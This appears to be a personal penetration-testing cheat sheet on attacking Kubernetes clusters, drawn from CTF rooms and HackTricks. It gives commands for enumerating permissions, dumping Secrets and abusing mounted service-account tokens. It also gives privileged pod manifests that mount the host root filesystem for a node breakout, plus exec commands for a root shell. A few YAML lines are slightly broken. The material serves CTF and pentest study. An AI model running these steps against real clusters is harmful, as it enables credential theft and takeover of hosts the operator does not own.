 # Kubernetes Hacking

For [[Kubernetes]] information follow the link

No `microk8s` no problem get official `kubectl` binary here: [Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/); official `curl` commandage..
```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

# ARM4
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl"

```

Enumerate permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

Enumerate pods and namespaces, image name
```bash
env # services are often stored as environment variables

microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml # get the image: $field of current pod
microk8s kubectl get nodes
microk8s kubectl get deployments
microk8s kubectl get services
microk8s kubectl get ingress
microk8s kubectl get jobs
```

Find Secrets - secret values in resources called Secrets that get mounted into pods as either environment variables or files
```bash
kubectl get secrets
kubectl describe secret $secretName
kubectl get secret $secretName -o 'json'
```

Token Abuse
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
./kubectl get pods --token=${TOKEN}
./kubectl get serviceaccount --token=${TOKEN}
# execute bash on a pod
/kubectl exec -it $pod --token=${TOKEN} -- /bin/bash
```

Secret Token locations and with RCE on pod; from [GitHub ChrisPritchard/ctf-writeups/ TIPS-AND-TRICKS.md#kubernetes](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md); citing [Hacktricks Kubernetes Pentesting]([https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting))
```bash
/run/secrets/kubernetes.io/serviceaccount
/var/run/secrets/kubernetes.io/serviceaccount
/secrets/kubernetes.io/serviceaccount

# note the port 6443 has also been found as 16433
# for commands, finding out what your privs are would be `auth can-i --list`. Others, like `get secrets -n [namespace]` etc.
kubectl --token=$(cat token) --server=https://10.10.175.123:6443 --insecure-skip-tls-verify=true [commands]
```


#### Make a pod and mount away!

May require token
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
# Get the image for privesc.yml
kubectl get pods --all-namespaces -o jsonpath="{.items[*].spec.containers[*].image}" --token=${TOKEN} | tr -s '[[:space:]]' '\n' | sort | uniq -c

```
[List all container images in all namespaces](https://kubernetes.io/docs/tasks/access-application-cluster/list-all-running-container-images/)

Create a YAML file to create a pod to run as root - named kubeRevShell.yaml - [prettifer](https://onlineyamltools.com/prettify-yaml) 
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:sed 
  containers:
    - name: shell
      image: # GET THE IMAGE NAME OF CURRENT POD
      # imagePullPolicy: IfNotPresent 
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```

[BishopFox BadPod.yml](https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml)
```yml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

To force image pulling or not if the cluster lack internet connection set and set `image:`  to locally cached image.
```yaml
imagePullPolicy: IfNotPresent 
imagePullPolicy: Never 
imagePullPolicy: IfNotPresent 
```


Beware:
`name:` must be a lowercase RFC 1123 label.

Apply this configuration
```bash
microk8s kubectl apply -f kubeRevShell.yaml
```

Check the status of the pod
```bash
microk8s kubectl get pods -n kube-system # display kube-system namespace
```
https://tryhackme.com/room/insekube
Exec a very minimal shell, works as nested `nc` no tty... 
```bash
./kubectl exec some-pod -n kube-system --stdin --tty -- /bin/bash
# Or
./kubectl exec -it some-pod --token=${TOKEN} -- /bin/bash
```
```

Clean up yourself 
```bash
./kubectl delete -f kubeShell.yaml
```

#### Kubernetes Token Abuse

`cat /var/run/secrets/kubernetes.io/$account/token`

Pod breakout

Privilege Escape

Cloud Hacking

## References

[Online YAML prettifier](https://onlineyamltools.com/prettify-yaml)
[Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/);
[THM Insekube Room](https://tryhackme.com/room/insekube)
[Unofficial Kubernetes Documentation](https://unofficial-kubernetes.readthedocs.io/en/latest/)
[Hacktricks Kubernetes Pentesting]([https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting))
[GitHub ChrisPritchard/ctf-writeups/ TIPS-AND-TRICKS.md#kubernetes](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md)